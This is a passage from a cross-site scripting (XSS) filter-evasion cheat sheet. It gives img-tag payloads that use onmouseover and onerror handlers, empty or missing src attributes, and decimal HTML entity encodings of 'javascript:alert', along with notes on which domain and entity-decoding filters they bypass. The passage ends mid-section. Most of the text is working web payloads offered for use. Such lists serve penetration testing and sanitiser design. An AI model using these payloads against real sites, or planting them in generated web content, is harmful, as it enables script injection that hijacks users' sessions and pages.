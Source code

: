 ## `Default SRC Tag` to Get Past Filters that Check SRC Domain
- This will bypass most SRC domain filters.
- Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc.
- It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here.

```js
<IMG SRC=# onmouseover="alert('xxs')">
```

## `Default SRC Tag` by Leaving it Empty

```js
<IMG SRC= onmouseover="alert('xxs')">
```

## Default SRC Tag by Leaving it out Entirely
```js
<IMG onmouseover="alert('xxs')">
```

## On Error Alert

```js
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

## IMG onerror and JavaScript Alert Encode

```js
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
## Decimal HTML Character References
All of the XSS examples that use a javascript: directive inside of an <IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode).

```js
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
```

## Decimal HTML Character References Without Trailing Semicolons
This is often effective in XSS that attempts to look for `“&#XX;”`, since most people don’t know about padding - up to 7 numeric characters total.
- This is also useful against people who decode against strings like `$tmp_string =~ s/.*\&#(\d+);.*/$1/;` which incorrectly assumes a semicolon is required to terminate a html encoded string:
